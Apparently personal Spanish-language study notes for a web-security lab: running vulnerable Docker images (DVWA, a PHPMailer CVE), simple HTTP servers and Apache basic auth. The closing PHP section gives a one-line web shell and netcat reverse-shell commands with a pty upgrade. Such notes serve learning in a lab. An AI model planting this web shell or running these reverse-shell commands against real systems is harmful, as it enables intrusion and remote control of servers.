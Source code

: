 	## Docker
	- Instalación: 
		1º sudo apt-get install docker
		2º sudo apt-get install docker-compose
		3º systemctl start docker
	- Lanzarlo:
		. dvwa: docker run --rm -it -p 80:80 vulnerables/web-dvwa
		. phpmailer: docker run --rm -it -p 8080:80 vulnerables/cve-2016-10033

	## CMS
	Sirve para la gestión sencilla y centralizada de paginas webs. Problema: Gran cantidad de vuln.

	## Servidor Web con python
	--> python -m SimpleHTTPServer PUERTO
	--> python3 -m http.server PUERTO

	## Apache2
	- Crear un servidor, su directorio: /var/www
	- Aqui se pueden crear diferentes hosts, etc. Configuracion:
		- cd /etc/apache2 --> sites-available
		- Modificar 000-default...--> DocumentRoot
		- Añadir "Server name"
		- a2ensite 000-pagina1.conf
		- cd /etc/hosts --> Añadir los hosts al archivo
	- Dispone de autenticación básica (No es segura):
		- Copiarlo en la configuracion de página (/etc/apache2/000-pagina.conf)
				. Crear "Location"
				<Location />
			        AuthType Basic
				AuthName "Contenido restringido"
				AuthUserFile /etc/apache2/.htpasswd
				Require valid-user
				</Location>

		- Crear usuarios:
				. htpasswd -c /etc/apache2/.htpasswd USER
				. Password: 1234
	- Se pueden utilizar distintos lenguajes:

		# PHP
		- Para ejecutar comandos desde navegador:

		<?php
		echo exec ($_GET['cmd'])
		?>

		- Crear shell:
		
			. url/archivo.php?cmd=nc+127.0.0.1+4444+-e+%2Fbin%2Fbash
			. nc -lvp 4444
			. python -c 'import pty; pty.spawn("/bin/bash")'
			. export TERM=xterm
